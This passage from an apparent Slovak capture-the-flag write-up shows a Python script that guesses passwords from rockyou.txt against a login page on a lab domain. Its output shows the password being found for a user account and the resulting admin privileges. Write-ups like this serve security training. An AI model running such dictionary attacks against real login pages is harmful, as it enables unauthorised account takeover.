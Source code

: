 ```python

    try:
        with open(ROCKYOU_PATH, 'r', encoding='utf-8', errors='ignore') as f:
            for line_num, line in enumerate(f, 1):
                password = line.strip()

                if not password:
                    continue

                print(f"[{line_num}] Skúšam: {password[:30]}{'...' if len(password) > 30 else '          '}", end='\r')

                if try_login(password):
                    print(f"\n[+] ÚSPECH! Heslo nájdené: {password}")
                    print(f"[+] Používateľ: {USERNAME}")
                    print(f"[+] Heslo: {password}")
                    return

                time.sleep(1)

    except FileNotFoundError:
        print(f"\n[!] Súbor {ROCKYOU_PATH} nebol nájdený!")
        sys.exit(1)
    except KeyboardInterrupt:
        print("\n[!] Prerušené používateľom")
        sys.exit(0)

    print("\n[-] Heslo nenájdené v slovníku")

if __name__ == "__main__":
    main()
```

Po pár minútach hitlo heslo na pozícii 197

```
$ python idmbf.py
[*] Začínam brute-force útok na http://idm-new.powergrid.tcc/login
[*] Používateľ: ella.reed@powergrid.tcc
[*] Slovník: rockyou.txt
------------------------------------------------------------
[197] Skúšam: 123abc
[+] ÚSPECH! Heslo nájdené: 123abc
[+] Používateľ: ella.reed@powergrid.tcc
[+] Heslo: 123abc
```

Admin dashboar píše

> You have administrative privileges. You can:
> 
> - Manage users and assign roles
> - View and audit access logs
> - Configure AD/LDAP integrations
